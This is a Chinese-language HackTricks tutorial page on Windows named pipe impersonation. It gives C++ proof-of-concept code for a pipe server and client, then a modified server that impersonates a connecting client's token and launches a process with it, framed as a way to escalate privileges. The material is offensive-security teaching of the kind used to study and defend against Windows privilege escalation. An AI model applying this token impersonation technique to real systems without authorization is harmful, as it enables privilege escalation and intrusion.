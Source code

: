 # 命名管道客户端模拟

## 命名管道客户端模拟

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或者**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>

**这些信息是从** [**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation) **复制的**

## 概述

`管道`是一个共享内存块，进程可以用它来进行通信和数据交换。

`命名管道`是Windows机制，允许两个不相关的进程之间交换数据，即使这些进程位于两个不同的网络上。它与客户端/服务器架构非常相似，因为存在`命名管道服务器`和`命名管道客户端`的概念。

命名管道服务器可以打开一个具有预定义名称的命名管道，然后命名管道客户端可以通过已知名称连接到该管道。一旦连接建立，就可以开始数据交换。

这个实验室关注的是一个简单的PoC代码，允许：

* 创建一个单线程的简单命名管道服务器，它将接受一个客户端连接
* 命名管道服务器向命名管道写入一个简单消息，以便管道客户端可以读取它

## 代码

以下是服务器和客户端的PoC代码：

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

return 0;
}
```
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
HANDLE clientPipe = NULL;
BOOL isPipeRead = true;
wchar_t message[MESSAGE_SIZE] = { 0 };
DWORD bytesRead = 0;

std::wcout << "Connecting to " << pipeName << std::endl;
clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

while (isPipeRead) {
isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
std::wcout << "Received message: " << message;
}

return 0;
}
```
{% endtab %}
{% endtabs %}

## 执行

以下展示了命名管道服务器和命名管道客户端按预期工作的情况：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22.png>)

值得注意的是，默认情况下命名管道通信使用SMB协议：

![](<../../.gitbook/assets/Screenshot from 2019-04-04 23-51-48.png>)

检查进程如何保持对我们的命名管道 `mantvydas-first-pipe` 的句柄：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (1).png>)

同样，我们可以看到客户端对命名管道有一个开放的句柄：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (2).png>)

我们甚至可以用powershell看到我们的管道：
```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```
```markdown
## 令牌模仿

{% hint style="info" %}
请注意，为了模仿客户端进程的令牌，您需要拥有（创建管道的服务器进程）**`SeImpersonate`** 令牌权限
{% endhint %}

命名管道服务器可以通过利用 `ImpersonateNamedPipeClient` API 调用来模仿命名管道客户端的安全上下文，这反过来会将命名管道服务器当前线程的令牌更改为命名管道客户端的令牌。

我们可以像这样更新命名管道服务器的代码来实现模仿 - 请注意，修改在第25行及以下可见：
```
```cpp
int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

std::wcout << "Impersonating the client..." << std::endl;
ImpersonateNamedPipeClient(serverPipe);
err = GetLastError();

STARTUPINFO	si = {};
wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
PROCESS_INFORMATION pi = {};
HANDLE threadToken = GetCurrentThreadToken();
CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

return 0;
}
```
在服务器上运行并使用在administrator@offense.local安全上下文下运行的客户端连接到它时，我们可以看到命名管道服务器的主线程假定了命名管道客户端的令牌 - offense\administrator，尽管PipeServer.exe本身是在ws01\mantvydas安全上下文下运行的。听起来像是一个提升权限的好方法吗？

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在HackTricks中看到你的**公司广告**或者**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
